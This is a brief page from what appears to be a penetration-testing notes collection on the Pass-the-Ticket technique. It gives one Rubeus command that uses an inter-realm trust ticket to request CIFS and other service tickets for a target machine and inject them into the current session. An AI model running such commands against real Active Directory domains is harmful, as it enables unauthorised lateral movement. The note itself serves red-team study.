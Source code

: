 # Pass The Ticket

### Use a Inter-Realm tgt

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgs /ticket:./trust_tkt.kirbi /service:cifs/<TARGET MACHINE>,<OTHER SERVICES> /dc:<TARGET DOMAIN DC> /ptt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/Pasted image 20231113155312.png" alt=""><figcaption></figcaption></figure>

